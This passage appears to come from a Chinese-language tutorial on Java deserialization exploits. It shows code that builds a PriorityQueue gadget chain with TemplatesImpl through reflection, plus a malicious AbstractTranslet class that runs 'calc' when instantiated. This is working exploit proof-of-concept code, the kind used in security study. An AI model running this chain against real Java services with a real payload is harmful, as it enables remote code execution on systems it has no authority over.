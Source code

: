 ```java
        //设置comparator属性
        Field field = queue.getClass().getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, transformer_comparator);

        //设置queue属性
        field = queue.getClass().getDeclaredField("queue");
        field.setAccessible(true);
        //队列至少需要2个元素
        Object[] objects = new Object[]{TemplatesImpl_instance, TemplatesImpl_instance};
        field.set(queue, objects);

        //序列化 ---> 反序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object object = ois.readObject();
    }
}

```





恶意类：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evi extends AbstractTranslet{
    public  Evi() {
        super();
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```
